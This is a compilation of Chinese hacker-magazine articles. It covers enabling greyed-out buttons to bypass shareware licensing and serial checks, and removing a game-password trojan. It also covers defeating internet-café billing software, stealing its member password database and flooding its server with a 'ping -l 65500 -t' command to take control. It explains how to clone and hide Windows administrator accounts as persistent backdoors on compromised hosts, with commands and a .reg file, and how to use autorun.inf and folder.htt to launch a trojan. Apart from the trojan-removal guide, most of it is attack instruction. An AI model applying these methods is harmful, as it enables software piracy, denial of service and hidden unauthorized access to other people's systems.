Window按钮突破专家是一款国产软件（注意是“Window”而非“Windows”，不要看错哦），你可以从这里下载到它：http://tongtian.net/pediy/usr/12/12_767.zip。它只有4K大小，却可以完成许多大块头软件无法完成的任务！下载下来的Window按钮突破专家只有一个可执行文件Window按钮突破专家.exe。运行后，你会发现它的界面非常简洁，甚至于可以说简陋（图1），但是它的功能却一点也不小！

让我们来看几个具体的应用实例。

## 一、享受美萍反黄专家注册用户功能

美萍反黄专家是美萍软件工作室推出的一款功能强大的反黄软件，它采用先进的网址拦截和内容过滤技术对浏览器进行实时监控，当用户有访问色情、暴力、反动，或者在搜索引擎搜索这些网站时，反黄专家会立刻开始过滤网站，屏蔽这些访问请求，并且给访问者以警示信息。此软件不仅适用于家庭用户，也可以广泛应用于学校、公共机房、网吧等场合。

在使用美萍反黄专家时，如果它发现你在IE中输入的网址中包含其黑名单中定义的内容，就会自动转向C盘的pornview.htm文件，使你无法访问网站。pornview.htm文件是个警告页面，理论上，只有注册用户才可以更改该警告页的地址（图2）。不过，只要你使用Window按钮突破专家就可以突破这个限制，让非注册用户的你也可以更改该地址。

运行Window按钮突破专家，然后把“开始运行按钮突破专家”勾选上，再运行美萍反黄专家，看，屏幕下方的选项“当发现黄色站点时，警告页地址是”可以使用了！而正常情况下，只有注册用户才能使用该功能。把该功能勾选上，然后输入你想更改为的警告页地址，再点击“保存”按钮，会弹出一个对话框提示保存设置成功，这样我们就可以享受注册用户才能使用的功能了（图3）！

要提醒大家注意的是，Window 按钮突破专家只能使灰色按钮暂时变为可用状态，一旦你关闭了它，或者关闭了目标软件，下次运行该软件，那些灰色不可用的选项依旧不能使用。以前刚说的恶意修改 IE 为例，要彻底解决问题，必须修改注册表中相应的键值才行，切记。

## 二、协助 IE 反恶意修改

在不小心浏览了含有恶意代码的网页后，会使我们的 IE 的起始主页被修改，并且 IE 的主页设置选项不能修改，变为灰色，这主要是由于注册表 HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel 下的 DWORD 值“homepage”的键值被修改的缘故。原来的键值为“0”被修改为“1”后，那些按钮就变成了灰色不可选状态。如果通过修改注册表的方法来进行恢复将很麻烦，使用 Windows 按钮突破专家以后就可以让这些选项重新可以使用。

具体方法是：运行 IE，点击“工具”菜单中的“Internet 选项”，会出现“Internet 选项”对话框。在该对话框中选择“常规”标签，就可以看到“使用当前页”、“使用默认页”和“使用空白页”这 3 个按钮为灰色不可选状态（如图 4）。现在请你运行 Window 按钮突破专家，然后把“开始运行按钮突破专家”前面打上“√”，再回到“Internet 选项”对话框的“常规”窗口中，在这里随便一个地方点击一下鼠标左键，你会发现这几个按钮竟亮起来了！试试看，又可以使用它们了！呵呵，真方便啊！

## 三、无偿使用超级兔子注册用户功能

超级兔子这款优秀的国产软件大家一定不陌生，它包含超级兔子魔法设置、超级兔子注册表优化、超级兔子终极加速和超级兔子修理专家 4 大部分，可以优化、调整、加速你的系统，清理 Windows 中的垃圾，优化注册表……功能非常多。该软件是共享软件，必须注册才能使用全部功能，否则有部分功能被限制。利用 Window 按钮突破专家就可以让你圆上一回注册用户的梦，使你可以使用那些平常为灰色不可用的功能，而这些功能正是超级兔子的精华功能之所在！

以超级兔子魔法设置为例，对于非注册用户来说“网络”设置中有部分功能就是不可用的，比方说“域名转换”标签下的功能选项都是灰色不可用状态（图 5）。同样，在超级兔子魔法设置主界面中的“右键菜单”下面也有类似的功能无法使用。要想使用它们，除了花钱注册以外，一个临时的解决办法就是使用 Window 按钮突破专家。运行它以后，把“开始运行按钮突破专家”勾选上，然后点击超级兔子魔法设置中你想使用的功能，会弹出一个对话框，提示只有注册用户才能使用该功能，别理会它，点击“确定”按钮，看，那些你想使用的功能都可以使用了（图6）！当然，注册用户拥有的功能肯定更多，更方便，所以建议你还是注册为好。

## 四、序列号错误也可安装瑞星杀毒软件2003

让我们回到文章开头提到过的瑞星杀毒软件2003，由于在安装时要输入序列号，而许多朋友的瑞星杀毒软件2003是从网上下载下来的，里面提供的序列号有的已经不能用了，所以就无法继续安装下去。有了Window按钮突破专家就好办多了。只要运行它，然后把“开始运行按钮突破专家”勾选上，再回到安装界面中点击一下鼠标，“下一步”按钮立刻变为高亮可选状态，点击它就可以继续进行安装，啊啊，这下子省了许多事！

Window按钮突破专家的主要用途就是使灰色不可用按钮亮起来，而这正是共享软件中功能限制程序常常采用的一招，所有用好了它还可以帮你事先共享软件的免费注册，这里就不多说了，你还是自己试试吧。这里只是抛砖引玉，希望能对大家有所帮助。

# 手工查杀木马“传奇密码终结者”

文／慕容秋荻

传奇密码终结者是一款针对目前火爆异常的网络游戏传奇的木马，它能通过取得击键记录，正确截取传奇登陆区域、用户名、密码、服务器及注册新用户里的所有信息，并将这些信息发送到木马者所指定的信箱，在2.0版中还能自行判断用户名及密码的准确性，并能自动过滤私服和重复记录，对广大电脑玩家的威胁非常大，如果你害怕自己的电脑中有该木马存在，又不知道怎么清除它，那就看看本文吧，相信你一定会有所收获。

## 一、发现传奇密码终结者

如果不小心运行了传奇密码终结者服务端程序Lmir.exe或者Spying.exe之后（你看到的很可能不是这个文件名，那些给你下木马的人不会那么傻，肯定会给文件改名字的，否则任何人都会知道它们是木马程序），会在C:\WINDOWS下生成一个木马文件lmir.cxc和记录IP信息的msimgsiz.dat文件，lmir.exe会开机则自动运行。同时在C:\WINDOWS\SYSTEM下生成3个木马文件：comir.exe、finalmir.exe和spying.exe，连同lmir.exe在内一下子生成4个木马文件，真狠啊！

上述木马文件中，spying.exe是守护进程，它在Win.ini文件的[windows]小节的run=后面加载，传奇密码终结者会将run=改为run=C:\WINDOWS\SYSTEM\Spying.exe，通过这种手段使得Windows每次启动时都自动加载spying.exe文件。finalmir.exe文件则在system.ini文件的[boot]小节中加载，运行木马服务端文件后，它会把system.ini文件中[boot]小节下的shell=Explorer.exe改为shell=Explorer.exe C:\WINDOWS\SYSTEM\Finalmir.exe。看到没有，多么狡猾的家伙呀！作为木马这样做的好处显而易见，那就是只要我们启动Windows就会自动运行Finalmir.exe文件！而又有谁没事天天看自己的Win.ini文件和System.ini文件是否正常呢？就算发现了异常，对于许多初学者来说又怎么能想到它们是什么呢？

现在只有一个文件——comir.exe没有提到了，comir.exe是干什么用的呢？它用来和TXT文件关联。联的，也就是说传奇密码终结者是文件关联木马，它会在注册表 HKEY_LOCAL_MACHINE\Software\CLASSES\txtfile\shell\open\command 和 HKEY_CLASSES_ROOT\txtfile\shell\open\command 下，将默认值由 "C:\WINDOWS\NOTEPAD.exe %1" 修改为 "C:\WINDOWS\SYSTEM\Comir.exe %1"。这样修改的结果就改变了 TXT 文件的打开方式，把正常的 TXT 文件关联改为和木马 comir.exe 关联在一起，这样做的结果就是，我们每次打开文本文件其实就是在运行木马 Comir.exe！如果你发现并删除了 finalmir.exe 和 spying.exe 文件，其实并没有真正清除该木马。一旦你打开任意一个文本文件，隐藏着的木马 comir.exe 就被激活！它将再次生成木马 spying.exe 和 finalmir.exe！令人不寒而栗的是，我们哪一天不得打开 N 次文本文件？所以仅仅删除 finalmir.exe 和 spying.exe 文件是没有用的！

关于文件关联的小提示：文件关联简单地说就是单击不同类型文件时，在鼠标右键菜单上看到的关联项目。对于已注册的文件，会以不同的图标显示它们，双击它时会启动不同的关联程序，至于对什么会这样，那都是因为相应的设置信息都记录在注册表中。因此，只要掌握其基本结构和各键值项的设置，就能随心所欲地定义文件关联了，就像本文中你看到的那样，传奇密码终结者修改了 TXT 文件关联。

注册表是木马们的最爱，传奇密码终结者也不例外，除了会修改 TXT 文件关联以外，它还会在注册表 HKEY_LOCAL_MACHINE\SOftware\Microsoft\Windows\CurrentVersion\RunServices 下建立字符串值 Lmir，其键值为 C:\WINDOWS\Lmir.exe。这样做的目的就是希望 Lmir.exe 能开机即加载运行。如果我们说这是传奇密码终结者为了开机即运行其自身所做的第三重保险一点也不为过（前两个分别是在 system.ini 和 win.ini 中加载），真是好狠毒啊！不过，这也反衬出作者对该木马并不十分放心，生怕被人发现^_^。

注意：我们以上所谈到的，都是按照木马的默认情况来说的。

## 二、手工清除传奇密码终结者

既然知道该木马在系统中新生成了哪些文件，对注册表做了哪些改动，要想清除该木马就容易多了，具体方法是：

- 1. 恢复正常的注册表

在“开始”菜单的“运行”中输入“regedit”，打开注册表编辑器，然后展开注册表到 HKEY_LOCAL_MACHINE\Software\CLASSES\txtfile\shell\open\command 和 HKEY_CLASSES_ROOT\txtfile\shell\open\command 下，在右边窗格中将“默认”值改为 "C:\WINDOWS\NOTEPAD.exe %1"。这样就恢复了正常的 TXT 文件关联。

接下来，清除传奇密码终结者在注册表的启动项中建立的键值。展开注册表到 HKEY_LOCAL_MACHINE\SOftware\Microsoft\Windows\CurrentVersion\RunServices 下，删除字符串值 Lmir 及其键值 C:\WINDOWS\Lmir.exe。

- 2. 用 msconfig 助一臂之力

在“开始”菜单的“运行”中输入“msconfig”，打开系统配置实用程序，点击 Win.ini 标签，展开 [windows] 前面的“+”，在其下选定 “run=C:\WINDOWS\SYSTEM\Spying.exe”，按“编辑”按钮把“run=”后面的内容清空。然后再选择 System.ini 标签，展开 “boot” 前面的“+”，把 shell=Explorer.exe C:\WINDOWS\SYSTEM\Finalmir.exe 改为 shell=Explorer.exe。最后点击“启动”标签，把启动项 Lmir 前面的“√”去掉即可。

- 3. 清除木马生成的文件

现在，我们来清除木马生成的文件。由于此时传奇密码终结者正在运行，所以不能在 Windows 下直接清除它们，我们可以到 DOS 下删除它们，也可以用进程管理软件如“柳叶擦眼”或 Windows 优化大师自带的系统进程管理器等终止 lmir.exe、finalmir.exe 和 spying.exe 这 3 个进程（如果中木马后运行过 TXT 文件则还要终止进程 comir.exe），之后到 Windows 所在文件夹及其 System 子目录中删除这些木马文件和 msimgsiz.dat 文件就可以了。

至此，我们就清除了木马传奇密码终结者，让木马者痛哭去吧！

# 网吧管理软件


# 重大漏洞知多少

文／陈海军

随着计算机事业和网络的发展，互联网已经走进了人的生活，已经成为了人们生活不可分割的一部分。在电脑普及率不高的中国，网吧成为了许多人们接触网络的地方。网吧的兴盛说明了我们网络业的发展，但是在网吧中，并非所有的人都只是上网而已。网吧的开放性和管理的松懈使许多心怀叵测者有机可乘，威胁到了网吧的管理和顾客的隐私。

现在的网吧已经告别了早先使用人工记费的历史，都使用软件了，就现在许多网吧大都使用的叫万象幻境或方竹的网吧记费软件。它是以在网吧管理机器安装服务端，在上网的机器上安装客户端，然后通过系统登录后执行客户端的形式来实现对网吧机器的管理的。那么，最简单的办法只要在未进入系统的时候按住F8键，然后选择进入安全模式或者DOS，找到这个软件的目录，一般是OCTOPUS把它改为任何一个名字，接着重新启动机器就可以了。一些有经验的网管知道后，在未登录系统前屏蔽掉F8键，那么这种方法就不可以用了。但是，根据万象运行的原理，只要在系统登录前还未完全运行它的时候按Ctrl+Alt+Del取消它的执行就可以了，这是第二种方法。第三种方法：在一些键盘上有个Sleep键，在万象幻境的客户端锁定的情况下，只要按一下SLEEP键，在提示出现个错误后，机器就可以自由使用了。另外，在网吧收费机，也就是万象幻境的服务端机器上，在OCTOPUS目录下会有个O_OCTOPUS.MDB文件，这个文件就记录了网吧所有会员的资料和会员卡的密码，如果找到了这个文件，就可以用ACCESS数据库软件，使用万能密码打开这个文件了。如果真是这样，还会有谁加入到会员中？！

最后还有一个比较复杂的方法。首先，选定一家网吧，当他打开主机，系统是锁住的（实际上，万象网吧管理系统并没有将系统锁住，只是限制了鼠标的移动范围）。解开系统的方法很多，利用最多的是通过智能拼音ABC的输入法漏洞，方法就不在这里介绍了，相信大家都知道，但值得一提的是，当黑客解开系统将万象的文件改名或删除后，如果主机安装了还原精灵，那么重新启动计算机后系统仍然是锁住的，因为还原精灵是最先启动的，将被改名或删除的文件还原，解决的方法就是在解开系统后打开注册表将还原精灵在启动栏中去掉，这样主机重启后系统就是打开的了。

但是，假如系统安装了还原卡那就没有办法了，因为还原卡是硬件，很难破解（本人将会在另一篇文章中单独介绍还原卡的破解），但是还原卡本身是有默认密码的（例如，远志还原卡默认密码是12345678，而小哨兵为manager）。网吧老板一般不会修改，这就为黑客提供了可乘之机。好了，现在黑客就要开始真正的入侵。首先，黑客往往先下载wxl，这个工具是万象幻境的密码读取器，它能够读出网吧老板设置的任何密码，这样黑客就可以为所欲为了。此后，黑客必须下载万象的安装程序，下载地址为：www.intous.com（在任何搜索栏里都可以搜到万象）下载完成后先放着。为什么不安装呢？原因是这样：在一个网吧中，所有的电脑分为客户端和服务端，客户端就是我们上网的主机。而服务端就是服务器，也就是网管用的主机。网管通过服务端向客户端发出各种指令，比如开机、关机、结账等等。也就是说，服务端控制着整个网吧。黑客下载了安装程序后可以选择是安装客户端还是服务端，当然是安装服务端，但不是立即就安装。因为黑客所拥有的主机实际上通过客户端在服务端上显示得很清楚。比如说你坐的是24号机，那么在服务端上就会显示24号机的各种情况，一旦安装了服务端，首先，作为客户端的24号机序列号就会被改坏，这在服务端上会显示出来，这样网管就会来看原因，真正的黑客当然不会犯这种危险的错误。而且，安装服务端后一个网吧就会有两个服务端，系统不知道应该执行哪个服务端的命令，往往会造成两个服务端都可以控制客户端，这也不是黑客想要达到的目的。所以，黑客要想完全独立地控制整个网吧，就要入侵真正的服务器并使其系统崩溃，是真正的服务器消失，这时再接替原来的服务端，使本来这个客户端成为新的服务端。这种方法不但控制了整个网吧，而且还不会被网管发现，所以是黑客的常用手段。那么，黑客是怎样令服务器系统崩溃的呢？答案很简单：攻击服务器。攻击服务器的方法也是有很多种的，这里介绍一下用PING命令使网络瘫痪的方法，我们知道，PING命令可以向目标主机发送数据包，但是这里存在一个漏洞，就是当你向目标主机发送的数据包超过65532byt时，就会造成目标主机死机或者重启。所以，微软公司就限制了数据包的大小，使发送的数据包不能超过65500byt。但是，即使是65500的数据包，如果不断地发送，也会造成目标主机的瘫痪，黑客们用这个命令：`ping -l 65500 -t 192.168.1.025`（输入的IP地址是要攻击的主机的IP，这里是随便举个例子），这个命令会向目标主机不断地发送65500的数据包，直到系统瘫痪为止，一般不会超过10分钟。如果想进行更强有力的攻击，可以随便在网上下载各种IP攻击工具（例如tiger，攻击威力惊人，我们学校机房几乎在5秒钟内就可以让服务器掉线）。所以，黑客向网吧服务器发送这个命令，不仅服务器瘫痪，整个网吧掉线，黑客就乘机接管服务器。但这里还有个问题，如何获得服务器的IP呢？其实很简单，只要在“开始”→“运行”中键入“winipcfg”点击“确定”，在出现的方框中就会出现自己的IP地址和系统的默认网关，网关一般就是服务器的IP地址；但是在Windows 2000或Windows XP中就只能到控制面板里面的“网络”选项，然后点击TCP/IP协议，可以找到（另外，也可以到海洋软件下载netsuper，利用它可以轻松地扫描出局域网内的所有机器的机器名和IP地址，当然服务器也在里面了）。

综上所述，万象幻境的漏洞实在太多了，任何一个稍微有一点黑客知识的人都可以利用万象的漏洞对系统造成重大的安全隐患，并因此可能造成重大的损失！虽然上述的种种漏洞，系统管理员有时可以通过万象的服务端查到，但是这样就在无形中增加了网管的工作量，况且对高手仍无能为力。虽然这方面的应对措施很多，比如说：

- 1. 在C盘根目录下的msdos.sys文件中加入“BootKeys=0”这一句。这样电脑在启动显示“Starting Windows 98...”时就无法使用F8键进入DOS。

- 2. 将硬盘上的文件的属性全都设为“隐藏”，并且在“文件夹选项”的“查看”中选择“不显示隐藏文件或系统文件”。这样，在浏览器中“浏览”硬盘上的文件时同样也看不见被隐藏的文件或文件夹。但是光这样还不行，因为仍然可以输入文件夹的名称进入文件夹，比如，可以在要打开的文件名框中输入“OCTOPUS”以进入这个目录，如果不将这个目录中的文件也隐藏，那还是存在着安全隐患。但是不能光隐藏网管软件目录中的文件，Windows中的文件，或者是与启动系统有关的文件统统需要隐藏起来。比如，只要将Windows目录下的“win.com”文件改名，就可以使电脑无法进入Windows，而是进入DOS。

……

但是这些应对措施无法从根本上解决万象系统的安全问题。本人学校机房用的是金盘电子阅览室管理系统，功能与万象差不多，但漏洞较少，不过在winxp下可以轻易地按Ctrl+Alt+Del关闭客户端，按进入系统（但容易被服务端检测到）。不过相比之下比万象优越很多！网址：http://www.goldlib.com.cn/ 有兴趣的网管可以尝试一下。

**声明：** 本人在文章中所述带有很强的攻击性，但只是为了给那些粗心大意的网管提个醒，且容易被系统检测到。任何人因文章所述而危害网吧，甚至违法犯罪，概与本人无关！

克隆账户一直都是黑客入侵中一个比较重要的话题，如果你想长时间保留自己的肉机，克隆一个隐藏的账户就显得非常必要了。本文由浅入深讲述了各种账户克隆技巧，以及每种方法的利弊得失。更让大家兴奋的是，作者还为此专门做了两个动画——手把手教你克隆账户哦！我们还有什么理由说自己不会克隆账号呢？！赶快行动吧！


# 由浅入深

文／青野志狼

# 解析克隆账户

虽然现在后门的制作方法和后门工具越来越多，而且Windows2000的pingbackdoor也已经非常流行了，但是这些毕竟是基于CMD命令提示符下的shell，用起来总觉得不舒服。如果想使用终端登录的话，还是有一个自己的账户比较好啊。而随便添加一个账户，没用两天就被删掉了，而且连肉机可能都丢掉（账户没了，不就等于管理员已经知道自己的机器被入侵了吗？但也不排除被其他同行删掉的可能性）；紧接着，出现了利用CMD的bug，使用类似panderlang$的账户，但是这还是不安全的，管理员使用net localgroup administrators就可以发现这个有管理员权限的账户或者在“计算机管理”中也可以找到；应运而生的克隆取代了上面的方法，成为主流后门账户的制作方法。我现在就由浅入深地介绍几种关于克隆账户的技巧。

## 一、使用CA克隆

使用榕哥的软件CA来克隆一个账户应该是大家使用比较广泛的方法，操作起来也非常简单，命令为：

```
text
ca.\\ip username password cloneusername
clonepassword
```

其中IP是你肉机的IP，username是你所具有的管理员的账号，password为管理员的密码，cloneusername是你要克隆的一般权限的账号，clonepassword为你要克隆的账号的密码。CA的使用方法简单，并且可以远程克隆。但也有缺点：只能克隆你已经具有管理员权限的账号，而其它的账号不能克隆，举个例子，你现在已经破解到管理员Admin的密码，那你只能克隆成Admin，而不能克隆成其他的管理员（如Administrator）。

## 二、用psu调出注册表，进行手动克隆

### 1. 克隆普通账户

用psu可以以system权限执行任何命令，当然包括调出注册表了，因为HKEY_LOCAL_MOCHINE\SAM\SAM键的内容只有system权限才能查看。我现在就用我自己的机器来做示范（大家如果也在自己的机器上测试，请先备份注册表！）。

> 编者注：psu，即Process Super user的缩写，它是一个用来提升到system权限的工具，注意，system权限并不等同于administrator权限哦！psu工具大家可以在随书光盘中找到。

先用psu调出注册表，在cmd中执行如下命令：（psu是一个工具）

```
text
E:\tool>psu -p regedit -i 236
```

其中，236为我当前登录的WINLOGON的PID。其他请参考psu的帮助。

在注册表中打开到 HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users 和 HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names，Names 中为当前系统中的所有用户名，Users 中其他项为用户的 SID。系统中有几个用户的 SID 是固定的，如 Administrator 的 SID 为 1f4，Guest 的 SID 为 1f5。我们现在所拥有的一般权限账号是 panderlang，要克隆成 Administrator，panderlang 的 SID 为 408。

在 Users 中打开 000001f4 中的 F 键，把 F 中的值复制，如图 1 所示。


然后打开 00000408 中的 F 键，把 F 中的值选中，然后粘贴，确定，如图 2 所示。现在就可以用 panderlang 来登录了，而且权限是超级管理员权限。


### 2. 克隆禁用账户

如果一个账户被禁用了，它还可以用来登录吗？当然可以，而且还是超级管理员权限呢！按照上面的步骤克隆了 panderlang，然后我们再回到 CMD 命令提示符下或“计算机管理”中（以前听别人说一定要在命令提示符下，但是经过测试，两个地方都可以）禁用账户和修改密码，也许是习惯吧，用 E:\tool>net user panderlang /active:no 来禁用账户。

好了，现在我们再用 panderlang 账户登录，是不是也成功登录了啊！我们再到“计算机管理”中查看用户，账户 panderlang 是处于禁用状态的，我们用 net user panderlang 也得到相同的结果。我们如果把 panderlang 的后面加个“$”，那么在 net user 中就不会显示这个账户了，安全性又高了一些。记住，克隆完以后别忘了把注册表打开的项关闭！

用 psu 以 system 权限导出注册表，然后手动克隆的方法灵活性比较强，可以克隆任意账号，而且还可以克隆禁用账号，确实是一种好的方法（一般都会克隆已经禁用的 Guest，很少被发现）。

## 三、不使用任何工具克隆

以上的方法或多或少都需要使用到一些工具，如果我们手头上正好没有工具呢，不要怕，我们完全可以靠自己来完成克隆任务——自己动手，丰衣足食：）

用 at 命令以交互方式启动 regedt32.exe（不是 regedit.exe），在命令行下键入命令：（我机器的当前时间为上午 9：29）

```
E:\>at 9:30 /interactive regedt32.exe
```

其中，/interactive 是允许作业在运行时，与当时登录的用户桌面进行交互。

在导出的注册表（和以前的不太一样！）中同样打开到 Users 和 Users 中的 Names 两个键中，然后同样使用第二部分中所讲的方法克隆账户。要注意的是：在 Names 中找不到用户名对应的 SID 是什么，所以我们应该清楚一般机器中 SID 的分配情况：Administrator 是 1f4，Guest 是 1f5，IUSR_Machine 是 3e9，IWAM_Machine 是 3ea，TsInternetUser 是 3e8。每添加一个账户 SID 便在上次的基础上加 1，即使你把这个账户删除，它所对应的 SID 也不能重新分配给其他账户。这种方法不利用任何工具，但是要求使用者必须对 SID 的分配情况有个大概的了解。当添加一个账户时，它的 SID 是最大的（除非碰上下面的情况）。

## 四、终极必杀技——制作完全隐形账户

这种说法是非常诱人的！前面的几种克隆方法已经差不多够用了，但还是可以在“计算机管理”中看到所添加的账户，这个怎么办呢？

初级：你可以建立一个类似这样的账户 langzu$，后面加一个“$”是为了让它在 CMD 中消失，但在“计算机管理”中还是可以看到的。

- 1. 不修改SID

先把 langzu$ 克隆成管理员账户，然后用 psu 导出注册表，把 HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names 中的键 langzu$ 重命名为 $langzu$，然后关闭注册表就可以了，如后面图 9 所示。

- 2. 修改SID

还是先把 langzu$ 克隆成管理员账户，然后看看它所对应的 SID，现在的 SID 是 3f0，然后在 Users 中相应的 SID 上点右键——>重命名，把后面 3 位改成一个比较大的数（这个是 16 进制的），我改的是 000009ff，也可以改成 000001f4 以下的任何一个，如图 3 所示。


然后看看 Names 中 langzu$ 对应的 SID，我们也要把这个 SID 改成刚才那个（9ff）。这个值直接改是改不了的，请参照如下方法：

- 1. 把 langzu$ 这个键导出，如图 4 所示。
- 2. 编辑导出的注册表文件，文件如图 5 所示，


把其中的 SID（3f0）修改成我们自己的 SID（9ff），如图 6 所示。


- 3. 把注册表中 Names 下的 langzu$ 删除，如图 7 所示。


（4）把刚才修改后的文件导入注册表，如图8所示。


图8

现在回到“计算机管理”中，又出现了langzu$这个账户。

（5）我们想一下：如果只在后面加一个“$”号，在cmd中就看不到这个账户，那我在它前面再加一个“$”号呢？在注册表中langzu$的前面加一个“$”号，如图9所示。


图9

到现在你可以用net user，net localgroup administrators或者在“计算机管理”中查看一下，这几个地方都没有$langzu$这个账户，但是我们却可以利用它来登录。不过，在“计算机管理”中会出现“用户名找不到”的错误。

我们现在来比较一下刚才的两种方法：不修改SID和修改SID。

先说一下两种方法的共同点吧！两种方法都可以使账户在net user，net localgroup administrators和“计算机管理”中消失，可以说是基本上隐形了，但在“计算机管理”中都会出现错误。

两者的区别在于，两种账户的制作方法不同，所以效果有区别也不奇怪哦。

第一种方法必须克隆，也许有些人认为：既然在哪都不能看到这个用户，那不克隆不也可以吗！严重错误！！笔者做过测试，如果不克隆，直接把账户添加到管理员组，那么用net localgroup administrators是以langzu$的形式显示出来的。而且第一种方法在重新启动被显示出来以后，可以用net user $langzu$ /del删除！

第二种方法必须要克隆和修改SID，而且在注册表中账户的前面加一个“$”，这样才能使它在“计算机管理”中不被显示出来。我们可以用net user $langzu$来查看，但是显示的用户名是langzu$，奇怪吧！呵呵，你可以用net user $langzu$ password来给它改密码，但是不能删除，如图10所示。


图10

中级：上述两种方法有个弱点：如果重新启动的话，两者都会以$langzu$的形式重新被显示在“计算机管理”中，那么我们所做的工作就白费了（其中第二种方法在“计算机管理”中同样不能删除）。原来我们做完的时候注册表中是$langzu$，“计算机管理”中是langzu$，那现在我再将它改回去，把“计算机管理”中的$langzu$ 前面的 “$” 删掉，然后刷新，怎么样，现在 “计算机管理” 中用户里面一片空白，什么用户都没有了吧，而且也不会出现错误。在注册表中自动添加了一项 langzu$，而且跟 $langzu$ 使用的是同一个 SID，这两个账户都可以登录，而且密码等所有的一切都是一样的（弱点：需要重启后才能修改）。

高级（变形的克隆）：由于中级中介绍的方法只有在重启后才能使用，所以我们要另寻方法。先提醒一下大家，在上面删除掉的 $langzu$ 其实并没有从 Names 中消失，而是一直存在的，而且在 “计算机管理” 中也是正常显示的。现在有些朋友可能已经想到怎么利用了吧？！

我们刚才删除的账号 $langzu$ 没有从 Names 中消失，我们就利用这一点，看一下它关联的 SID，是一个不存在的值，这样不能登录，那么如果我就把它关联到任何一个管理员的 SID，这样又会如何呢？！用上述修改 SID 的方法把 $langzu$ 导出，然后把 SID 值改成 1f4，或者是其他管理员的 SID（不过确保这个管理员不会被真正的管理员删除，所以最好选用 1f4），现在我们再用 $langzu$ 登录试试，注意密码是你所使用 SID 的管理员的密码（这也算是一个缺点吧），重启后同样在 “计算机管理” 中看不到任何用户。

既然我们可以使用关联，一般我们进入系统后都会弄到 Administrator 的密码（用 findpass、LC4 等，具体方法不讲了），所以只要写个注册表文件，导入到注册表即可，内容如下（把其中的 panderlang 改成自己的用户名）：

```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\panderlang$]
@=hex(1f4):

或者：

Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\$panderlang$]
@=hex(1f4):
```

其实你完全可以把这种方法和一般的克隆结合起来，让两种方法互补：克隆一个禁用的账户（如 Guest），然后把他的密码改成自己的，然后用必杀技——高级中的 SID 关联方法关联到 Guest，这样就可以自己设置密码了。

到现在，这个真正的隐形账户才算出来（这里主要阐述了这种方法的发现过程）。这种方法比较隐蔽。对于中级和高级的方法，如果服务器不重启（一般服务器很少重启），管理员是发现不了什么的；即使重新启动后，工夫浅点儿的管理员对所产生的结果（“计算机管理” 中用户里的所有内容全部消失）也不知所措，根本就不知道是什么问题，还以为是自己的操作有误呢！呵呵……，但是高手就会以 system 权限调出注册表，如果这样就挂了，账户马上就暴露出来哦！我曾碰到过一台台湾的服务器，竟然每次开机都会自动还原系统（克隆也没有用啊），不过系统还原也是一个不错的方法，只不过它让我郁闷了好几天。

总结：以上几种克隆方法由浅入深地解决了账户克隆问题，每深入一层，便安全一些，但是每种方法都有可能被网管发现，所以要做出一个强悍的后门账户，还必须努力探索。到写完这篇文章的时候，我的注册表已经乱七八糟了，多亏我备份了一份！如果你的服务器被别人用上述方法克隆了，如果使用的是必杀技——初级中的第二种方法，那么建议你修改这个账户的密码，禁用是没有用的；如果是最后一种，直接从注册表中 Names 下删除用户名即可。以上测试平台：Windows2000 Server + SP3。以上的方法对一些域级别的系统（Advance Server 以上）可能会造成破坏，请慎重使用，对使用本文介绍的方法所造成的破坏，本文作者概不负责。

由于必杀技——初级的第二种方法（修改 SID）比较复杂，所以我做了一个动画（《制作完全隐形账户——初级》），还有一个必杀技——高级中的动画也一并奉献给大家！

程序的运行无非就两种方式，一种是直接运行，点击运行程序就行了；另一种为间接运行，就是所谓的关联运行，运行一程序时触发另一程序的运行。木马作为应用程序的一种，也存在两种运行方式：一是直接运行，点击生成的远程控制软件的服务端，点击朋友用 QQ 传来的木马文件等都直接触发程序的运行等；再是间接运行，点击捆绑了木马的程序文件、利用 MIME 头漏洞做的网页木马等都是间接地通过间接的方法使程序运行，“关联陷阱”（作者自定义名称）就是其中的一种方法。

## 警惕 “关联陷阱”

文／朱平


要使程序运行除了让它直接运行之外，我们可以利用间接的方法使程序运行，这里我们以关联性实现第三方程序（木马为例）的运行为实例进行介绍。作为关联性间接运行方式的一种，又常伴着木马运行，我们暂且称它为：关联陷阱。很好听吧？我取的！

# Autorun.inf

大家是不是经常使用光盘？是不是有时候会发现光盘一放进去就会自动运行？《黑客防线》的光盘就是这样的，不信你试试。其主要是依靠光盘上的 autorun.inf 文件和系统文件 cdvsd.vxd（C:\WINDOWS\SYSTEM\IOSUBSYS），当光盘放入光驱，cdvsd.vx 便开始搜寻光盘根目录下的 autorun.inf 文件，如果存在 autorun.inf 文件，便执行里面的设定程序。

编辑后：

```
[AutoRun]
OPEN=c:\1.exe      /* 运行程序路径 */
ICON=c:\autorun.ico    /* 图标文件路径 */
```

存盘后，再拷贝自己编的木马程序 1.exe 到 C 盘根目录下。回到“我的电脑”主目录，此时你会发现你的 C 盘已经换了图标啦，点击 C 盘后你会发现程序 1.exe 运行了，如图 1 所示。

再编辑 autorun.inf 文件，把图标路径删了，把运行程序路径加深，再加上 autorun.inf 的其他语句。呵呵，你会发现 autorun.inf 也是一个很不错的黑客工具。

同理，其也能让硬盘自动运行程序。我们拿《黑客防线》光盘下的 autorun.inf 做个试验吧。把《黑客防线》光盘下的 autorun.inf 和 autorun.ico 拷贝到 C 盘目录下。编辑 autorun.inf 文件。

```
[AutoRun]
```


图 1

## 三、开机自动运行

主要就是注册表中的几个设置自动运行的键值，这里就不再赘述了。第三期《黑客防线》有一篇文章《3389下的后门检测》，其内容里提到的对方安装后门的方法是在注册表 HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run 下增加一个 *.bat 文件的启动键值，再利用 *.bat 文件运行木马程序。原理相同，只是做得更隐蔽些，大家可以参考。

## 二、修改文件夹模板文件

这是从网上一个动画教程下看到的，名字为《利用文件夹给管理员下个套》。动画教程做得很精致，其原理是修改文件夹的模板文件：folder.htt，在其中插入 javascript 语言自动运行程序的代码，从而关联运行木马文件。

首先隐藏打开一文件夹，此时是看不到模板文件的。我们打开文件夹选项（工具->文件夹选项），在查看设置中把选项“隐藏受保护的操作系统文件（推荐）”前的勾去除，并选择“显示所有文件夹”，如图2所示。

